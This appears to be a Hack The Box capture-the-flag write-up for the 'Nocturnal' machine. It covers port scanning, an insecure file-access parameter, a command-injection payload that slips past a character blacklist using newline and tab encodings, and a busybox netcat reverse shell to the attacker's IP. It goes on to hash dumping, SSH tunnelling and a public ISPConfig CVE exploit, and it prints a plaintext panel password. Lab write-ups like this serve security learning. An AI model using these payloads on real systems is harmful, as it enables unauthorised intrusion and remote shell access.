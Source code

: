 # HTB - Nocturnal
<img width="400" height="413" alt="image" src="https://github.com/user-attachments/assets/db53df5b-edf3-4d4d-a337-637ccceea298" />



## Reconnaissance

### Port Scanning

To begin the assessment, a full TCP SYN scan was conducted across all ports using the following command:

```bash
sudo nmap -sS -Pn -n -p- --min-rate 5000 10.10.11.64
````

![Full port scan](images/Pasted%20image%2020250727143751.png)

Once open ports were identified, a service/version detection scan was executed against the relevant ports:

```bash
sudo nmap -sCV -Pn -n -p22,80 10.10.11.64
```

![Service detection](images/Pasted%20image%2020250727143936.png)

The scan revealed the hostname `http://nocturnal.htb`. The hostname was added to the `/etc/hosts` file for name resolution:

![Hosts entry](images/Pasted%20image%2020250727144211.png)

---

## Web Exploration

Accessing the domain:

![Website homepage](images/Pasted%20image%2020250727144235.png)

A test user account was created:

![Test user created](images/Pasted%20image%2020250727144334.png)

The upload functionality accepted the following file extensions: `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.odt`.

![Upload filetypes](images/Pasted%20image%2020250727144655.png)

By analyzing the request structure and upload behavior, it was possible to manipulate the `username` and `file` parameters to access files uploaded by other users:

![Parameter tampering](images/Pasted%20image%2020250727145006.png)

---

## Enumeration and File Discovery

A brute-force attack was launched to discover possible users and filenames:

![Brute-force](images/Pasted%20image%2020250727152938.png)

Discovered:

* **Username:** `amanda`
* **File:** `privacy.odt`

![File found](images/Pasted%20image%2020250727153012.png)

The file was accessed and downloaded using:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

![File downloaded](images/Pasted%20image%2020250727153131.png)

Upon inspection, the file revealed Amanda’s credentials:

![Credentials extracted](images/Pasted%20image%2020250727153219.png)

With these credentials, access to an admin panel was granted:

![Admin access](images/Pasted%20image%2020250727153308.png)

---

## Vulnerability in Admin Panel

Reviewing `admin.php` exposed a vulnerable **backup feature**:

![Backup vulnerability](images/Pasted%20image%2020250727153329.png)

### Vulnerability Summary

* Admins could generate ZIP backups of the directory, protected by a user-supplied password.
* The password was passed to the `zip` command inside a `proc_open()` shell call.
* Input sanitization via `cleanEntry()` was weak, blacklisting characters like `;`, `&`, `|`, `$`, spaces, etc.
* No robust escaping or whitelisting was applied.

To test for command injection, the POST request was intercepted and the `password` parameter was modified as follows:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
...
Content-Type: application/x-www-form-urlencoded
...

password=%0abash%09-c%09"whoami"&backup=
```

**Explanation of payload:**

* `%0a`: newline to terminate previous input
* `%09`: URL-encoded tab character
* `bash -c "whoami"`: command to be executed

![Command injection test](https://miro.medium.com/v2/resize\:fit:700/1*v9oRPOPOuTWfR2fwdcHlHQ.png)

---

## Reverse Shell

Once command injection was confirmed, a reverse shell was executed using BusyBox netcat:

```bash
password=%0abash%09-c%09"busybox%09nc%0910.10.14.20%094444%09-e%09/bin/bash”&backup=
```

![Payload sent](https://miro.medium.com/v2/resize\:fit:388/1*GEcOas5C_hPieT-HceJgtQ.png)

Listener on the attacking machine:

![Listener](images/Pasted%20image%2020250727143254.png)

A shell was obtained, and SQLite was used to dump user hashes from the internal database. The user containing the flag was **tobias**:

![Database dump](images/Pasted%20image%2020250727143507.png)

The password hash was cracked using [https://hashes.com](https://hashes.com/):

![Hash cracked](images/Pasted%20image%2020250727143326.png)

SSH access was achieved using Tobias’s credentials:

```bash
ssh tobias@nocturnal.htb
```

![SSH session](images/Pasted%20image%2020250727153703.png)

---

## Pivoting: Accessing Internal Services

During local enumeration, an internal service was discovered on port **8080**. To access it, an SSH tunnel was created:

```bash
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
```

![Port forwarding](https://miro.medium.com/v2/resize\:fit:700/1*rE930kDY1XVJl9wmgZ6ErA.png)

The forwarded port revealed an **ISPConfig** interface:

* **Username:** admin
* **Password:** slowmotionapocalypse

![ISPConfig login](https://miro.medium.com/v2/resize\:fit:361/1*8EfRE_MuT-yDx7WsCSFRcA.png)

---

## Remote Code Execution (RCE)

ISPConfig was running a version vulnerable to:

> **CVE-2023-46818** — Remote Code Execution

A public exploit was retrieved from GitHub:

[https://github.com/engranaabubakar/CVE-2023-46818](https://github.com/engranaabubakar/CVE-2023-46818)

The exploit successfully escalated privileges to **root**, completing the challenge.

![Root access](https://miro.medium.com/v2/resize\:fit:700/1*3UbdM_Teou82L1XZcnoYPA.png)
